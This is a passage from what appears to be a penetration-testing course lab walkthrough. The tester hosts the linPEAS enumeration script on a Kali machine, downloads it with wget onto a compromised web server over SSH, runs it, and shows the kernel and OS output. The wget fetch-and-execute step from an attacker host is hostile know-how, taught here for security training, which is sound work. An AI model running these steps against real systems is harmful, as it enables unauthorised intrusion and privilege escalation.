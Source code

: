 Because we often have time constraints in a penetration test, such as the duration of an assessment, let's use the *linPEAS* automated Linux enumeration script to obtain a broad variety of information and identify any potential low hanging fruit.

To do this, let's copy **linpeas.sh** to the **websrv1** directory and start a Python3 web server to serve it.

```
kali@kali:~/beyond/websrv1$ cp /usr/share/peass/linpeas/linpeas.sh .

kali@kali:~/beyond/websrv1$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

> Listing 16 - Serving the linpeas enumeration script

In our SSH session, we can use **wget** to download the enumeration script. In addition, we'll use **chmod** to make the script executable.

```
daniela@websrv1:~$ wget http://192.168.119.5/linpeas.sh
--2022-09-30 12:26:55--  http://192.168.119.5/linpeas.sh                                                                        
Connecting to 192.168.119.5:80... connected.                                                                                    
HTTP request sent, awaiting response... 200 OK                                                                                  
Length: 826127 (807K) [text/x-sh]                                                                                               
Saving to: 'linpeas.sh'      

linpeas.sh  100%[============================>] 806.76K   662KB/s    in 1.2s     

2022-09-30 12:26:56 (662 KB/s) - 'linpeas.sh' saved [826127/826127] 

daniela@websrv1:~$ chmod a+x ./linpeas.sh
```

> Listing 17 - Downloading linpeas and making it executable

Now, we can run the script and start the enumeration.

```
daniela@websrv1:~$ ./linpeas.sh
```

> Listing 18 - Starting the local enumeration with linpeas

Once the enumeration script has finished, let's review some of the results.

We'll begin with the system information.

```
╔══════════╣ Operative system
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#kernel-exploits                                                                                                                           
Linux version 5.15.0-48-generic (buildd@lcy02-amd64-080) (gcc (Ubuntu 11.2.0-19ubuntu1) 11.2.0, GNU ld (GNU Binutils for Ubuntu) 2.38) #54-Ubuntu SMP Fri Aug 26 13:26:29 UTC 2022                           
Distributor ID: Ubuntu
Description:    Ubuntu 22.04.1 LTS
Release:        22.04
Codename:       jammy
```
